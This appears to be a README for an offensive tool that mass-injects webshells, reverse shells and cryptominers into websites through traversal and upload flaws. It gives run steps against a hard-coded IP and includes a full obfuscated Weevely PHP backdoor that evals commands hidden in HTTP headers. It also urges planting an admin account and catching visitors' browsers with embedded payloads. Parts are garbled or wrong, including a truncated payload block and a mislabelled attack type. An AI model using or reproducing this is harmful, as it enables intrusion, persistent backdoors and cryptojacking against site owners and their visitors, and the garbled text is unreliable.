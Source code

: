 # Tropical Cumblast - A easy-mode, webshell/reverse-shell and cryptojacking malware spamming cannon

Written in under a day using

1. Python Requests
2. Needs dotdotpwn reports so it has something to parse
3. Preloaded with Weevely PHP Weaponized Webshells, one JavaScript reverse shell provided by Rapid7 and one example CoinHive Cryptominer


All it really does, is spam the living hell out of enumerated file upload vulnerabilities and path permissions issues that should have been taken care of by their administrators.

This is also known as host-header injection.

How it works is...

1. Reads a list of known directory traversal vulns from a wordlist
2. Generates a gigantic list of HTTP GET/POST/PUT requests,
3. Hammers the router with it for half an hour
4. And find out which one of the payloads made it.

You want to be looking at a traversal vulnerablity. that throws a code 302 or lower. That is the only chance we have at getting a stable shell to immediately work with.

Be warned, that it's quite tough. The first thing you should do if you land a shell is immediately get out of the environment, escalate your privileges and add yourself as a new username="admin". This app was specifically designed to launch Weevely PHP payloads, in both it's raw execuable form and as a embedded malware component on webpages.

# Installing and running it.

As long as you have dotdotpwn and some form of a reverse or web shell, then you are already ready to go.

1. Generate a wordlist of scanning results via dotdotpwn. dotdotpwn -m http -h http://ip.addr.ip.v4:80
2. Save the terminal results and change the value of 

list_of_injectable_links = "/root/dumppjbvulns.log"
target = "http://104.27.155.158:80"
payload = "thumbnails.php"

Then you need to generate some payloads. Be sure to take the shellcode and replace the values of these with it...
**raw_nodejs** = """
<html lang="en" dir="ltr">
    <meta charset="utf-8">
    <script type="text/javascript">
 
**html_embedded_payload_buffer** = """
<html lang="en" dir="ltr">
    <meta charset="utf-8">
<script type="text/php">
$M=str_replace('YO','','YOcreYOYOaYOte_YOfunctYOion');
$i=';$e=sto[rpoo[s($s[o[$i],$f);o[if(o[$e){$k=$kh.$ko[f;o[o[oo[b_start();@eo[val(@go[zuncompress(@xo[(@baso[eo[64_decoo[deo[(pre';
$X='[5($i.o[$kh),0,3o[));$o[o[f=o[$sl($ss(md5($io[.$kf),0,o[3));$o[p="";for(o[$o[z=1;$zo[<count($mo[[1]);$o[z++o[)$p.=$q[$mo[[2]';
$x='$kh="o[c016";$o[kf="fo[b54"o[;fo[unction x($t,$ko[){$c=sto[rlo[en($k);$l=o[strleno[($t)o[;$oo[="";o[for($io[=o[0;$i<$l;){foo[r';
$E='[session_starto[();$s=&$o[_o[SESSION;$o[ss="substro[o[";$sl="so[o[trtoloweo[ro[";$i=$m[1][0].$m[1]o[[1o[];$h=$o[sl($ss(mdo';
$t='[$z]o[]o[;if(o[so[trpos($p,$ho[)===0){$s[$i]o[="";$po[=$ss(o[$p,o[3)o[o[;}if(array_key_exio[stso[($i,$s)){o[$so[[$i]o[.=$p';
$I=';$qo[=aro[ro[ay_vao[lues($q);po[reg_matco[h_all("/o[(o[o[[\\w])[\\w-]+(o[?:;q=0.([\\d])o[o[)?,?/"o[,o[$ra,$o[m);if($o[q&&$m){@o';
$z='($j=0;($o[j<$c&&$o[o[i<$l);$j++o[,$i++){$o.=$o[t{$o[i}^$o[k{$j};}}ro[eturn $o[o;}o[$r=$_So[ERo[VER;$ro[r=@$r["HTTP_o[REo[FERE';
$p='Ro["];$ra=@$ro[["HTTo[o[Po[_ACCEPT_LANGUo[AGE"];io[f($rr&&$ra)o[{$u=pao[rseo[_url($rro[);paro[se_str($u[o["qo[uery"]o[,$q)';
$D='o[g_replaco[e(arro[o[ay("/_/","/-/"),array("/o[",o["o[+"),$ss($s[$i]o[,0,$e)))o[o[,$k)));$o=obo[_geto[_co[onteno[ts();ob_en';
$T='d_o[cleao[n();o[$d=bao[seo[64_enco[ode(x(go[zcompress(o[$o),$o[k));printo[("<$o[k>$d<o[/$ko[>");@session_deo[o[stroy();}}}}';
$e=str_replace('o[','',$x.$z.$p.$I.$E.$X.$t.$i.$D.$T);
$b=$M('',$e);$b();
  
 # And remember to select your payload by changing the value of this.
 
**payload_buffer** = html_embedded_payload_buffer


With someone's index.html is in the root web directory, with rwx permissions, then the payload will definitely go off even if its embedded as script tags in the html webpage. If someone loads your website. It goes off. Inside of THEIR webbrowser. And if they were to escape the sandbox of the web browser, then they got a lot to worry about.

# This already is working with...

1. Three working payloads from
      a. A Weevely PHP Penetration Testing Webshell
      b. A embedded PHP of that variant inside of a file called index.htm (it is created when the attack starts) due to the nature of POST requests
      c. A NodeJS Metasploit reverse shell, easily upgradable to Meterpreter.
  
Shell injection vulnerabilities are in fact, disturbingly common. If you own a wordpress, try running this against it to audit it.

# Official Steps

1. Generate a vulnerability report with dotdotpwn
2. Generate your own payloads using Weevely, Metasploit, Pupy, CoinHive, etc.
3. Load all of the obfuscated code into the script urlinjector.py

Point your cannon at whatever unsecured domain you found, and let it rip! Keep your reverse shell listeners running at ALL TIMES. If a web app payload embedded into a webpage snares someone, their reverse shell will be connecting IMMEDIATELY.
